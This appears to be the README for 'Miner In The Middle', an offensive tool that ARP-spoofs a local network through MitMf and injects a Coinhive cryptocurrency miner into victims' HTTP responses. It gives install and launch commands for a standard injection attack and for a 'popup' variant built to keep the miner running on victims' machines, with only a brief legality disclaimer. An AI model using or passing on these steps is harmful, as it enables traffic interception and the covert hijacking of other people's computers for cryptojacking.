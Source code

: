 
		
Miner In The Middle
Author - Anthony Russell
@DotNetRussell

Not for illegal use!
(unless you own the network or have permission from everyone on it, it's illegal)
	 
	 
You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
To install dependencies run:
    ./miner_itm.sh --install
	
   ----To launch a standard miner attack----
	
   The standard network attack arp spoofs the network, then injects a miner into http responses.
   To launch a standard miner injection attack run:
   ./miner_itm.sh <coinhive api key> <gateway ip> <interface name>
	
	
   ----To launch a popup miner attack----
	
   A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button.
   When they do it will spawn a popup with their site in it and the origonal window will launch a miner. This is nice for persistence. 
	
   First run:
       ./miner_itm.sh --generate <coinhive api key>
	
   and place payload.html into your web server root directory
	
   Second run:
       ./miner_itm.sh -p <gateway ip> <interface name> <web server ip>
	
	

